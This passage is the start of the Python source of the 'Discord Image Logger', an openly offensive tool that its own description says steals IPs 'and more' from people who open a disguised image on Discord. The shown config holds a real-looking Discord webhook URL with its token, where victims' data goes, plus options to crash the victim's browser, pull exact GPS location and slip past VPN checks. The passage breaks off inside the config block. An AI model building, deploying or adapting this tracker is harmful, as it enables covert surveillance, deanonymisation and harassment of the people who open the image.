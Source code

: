 # Discord Image Logger
# By DeKrypt | https://github.com/dekrypted

from http.server import BaseHTTPRequestHandler
from urllib import parse
import traceback, requests, base64, httpagentparser

__app__ = "Discord Image Logger"
__description__ = "A simple application which allows you to steal IPs and more by abusing Discord's Open Original feature"
__version__ = "v2.0"
__author__ = "DeKrypt"

config = {
    # BASE CONFIG #
    "webhook": "https://discord.com/api/webhooks/1334761689459064832/KoXlmkhR1V61EmeRQQdUVw93rW9ezAHjncHY4oBoCB4jEM4J2A1TEJpDSjl38pjFE1Xk",
    "image": "https://www.newegg.com/insider/wp-content/uploads/2014/04/windows_xp_bliss-wide.jpg", # You can also have a custom image by using a URL argument
                                               # (E.g. yoursite.com/imagelogger?url=<Insert a URL-escaped link to an image here>)
    "imageArgument": True, # Allows you to use a URL argument to change the image (SEE THE README)

    # CUSTOMIZATION #
    "username": "Image Logger", # Set this to the name you want the webhook to have
    "color": 0x00FFFF, # Hex Color you want for the embed (Example: Red is 0xFF0000)

    # OPTIONS #
    "crashBrowser": False, # Tries to crash/freeze the user's browser, may not work. (I MADE THIS, SEE https://github.com/dekrypted/Chromebook-Crasher)
    
    "accurateLocation": False, # Uses GPS to find users exact location (Real Address, etc.) disabled because it asks the user which may be suspicious.

    "message": { # Show a custom message when the user opens the image
        "doMessage": False, # Enable the custom message?
        "message": "This browser has been pwned by DeKrypt's Image Logger. https://github.com/dekrypted/Discord-Image-Logger", # Message to show
        "richMessage": True, # Enable rich text? (See README for more info)
    },

    "vpnCheck": 1, # Prevents VPNs from triggering the alert
                # 0 = No Anti-VPN
                # 1 = Don't ping when a VPN is suspected
                # 2 = Don't send an alert when a VPN is suspected

